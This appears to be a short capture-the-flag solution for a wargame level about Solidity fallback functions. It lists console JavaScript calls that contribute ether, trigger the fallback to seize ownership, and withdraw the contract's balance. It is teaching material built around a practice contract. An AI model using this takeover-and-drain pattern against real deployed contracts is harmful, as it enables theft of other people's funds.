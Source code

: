 ## The Fallback Function

A fallback function is a solidity function that is called when no other function in the smart contract matches the function name called.
https://www.geeksforgeeks.org/solidity-fall-back-function/

## Solution

1. Contribute to the contract
```javascript
    contract.contribute({ value: toWei(".000001", "ether"), from: player }) 
```
2. Send a transaction to trigger fallback function
```javascript
    sendTransaction({ to: contract.address, value: toWei(".000001", "ether"), from: player })
```
3. Withdraw from contract 
```javascript
    contract.withdraw()
```

**Verify ownership, it should return your address.
```javascript
    await contract.owner()
```
